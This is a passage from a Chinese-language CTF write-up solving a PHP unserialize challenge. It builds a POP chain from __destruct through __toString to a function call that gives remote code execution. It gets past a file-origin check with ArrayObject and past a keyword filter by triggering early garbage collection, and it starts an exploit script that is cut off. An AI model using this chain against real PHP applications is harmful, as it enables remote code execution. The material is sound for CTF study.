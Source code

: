 ```php
    public $a;
    public $b;
    public function __call($t1,$t2)
    {
        $s1 = $this->b;
        $s1();
    }
}
?>
```

先看**SomeClass.php**，rce的入口很明显在A了
但是想要进入A需要有一个不是该文件里的类，才能保证该类所在的文件不是`SomeClass.php`
可以用原生类`ArrayObject()`来绕过

接着往下看，B中的**__toStrint**魔术方法调用了**see()**方法
那么现在就是要找到能输出B的函数

在E中的die格外显眼，那么链子就是

`E=>__destruct()->B=>toString()->A=>see()`

接下来看**1Nd3x_Y0u_N3v3R_Kn0W.php**，我们必须要保证在程序报错之前能触发**__destruct()**从而输出rce
` if($o === false)`
这一步就表示我们的反序列化必须是成功的，所以提前销毁不能用**改反序列化类**

`spl_autoload_register('Al');`
这一步调用**AI**方法，include该类名加上**.php**，如果没有就报错，所以这里也需要绕过
我们自创一个**SomeClass**类套一层就好(必须是**SomeClass**哦，不然没这个文件怎么反序列化呢😄)

```php
if(preg_match("/Some/i",$raw)){
            throw new Error("Error");
        }
```

而这里对**Some**进行了过滤，那么我们必须在这步之前要提前触发**__destruct**了，这里就用到了gc回收机制
超详细的介绍可以看[这篇文章](https://www.jb51.net/article/242682.htm)

> 也就是说，我们在这原来的基础上套一个数组
>
> `array(0=$c,1=NULL)`(0,1 变成a,b也行 因为数组是按0,1分辨元素的)(其实不用NULL也可以，因为你修改本身就违反了php)
>
> 然后将最后的**i=0改为1**，此时原来的序列化元素0就指向了NULL，就触发了gc回收机制

**exp**

```php
<?php
class A
{
    public $a;
    public $b;
    public function see()
    {
        $b = $this->b;
        //这里的判断就是b类不能来自于SomeClass.php，所以想要rce就必须要绕过这个判断
        //第一种方法就是用php自带的原生类
        $checker = new ReflectionClass(get_class($b));
        if(basename($checker->getFileName()) != 'SomeClass.php'){
            if(isset($b->a)&&isset($b->b)){
                ($b->a)($b->b."");
            }
        }
    }
}
class B
{
```